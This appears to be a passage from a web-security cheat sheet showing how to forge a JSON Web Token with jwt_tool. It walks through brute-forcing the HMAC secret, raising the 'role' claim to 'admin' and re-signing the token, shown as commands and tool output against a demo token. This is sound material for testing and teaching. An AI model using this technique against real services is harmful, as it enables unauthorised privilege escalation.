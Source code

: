 
#### JWT tool

First, bruteforce the "secret" key used to compute the signature using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```powershell
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
```

Then edit the field inside the JSON Web Token.

```powershell
Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] Continue to next step

Please select a field number (or 0 to Continue):
> 0
```

Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the key length:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```
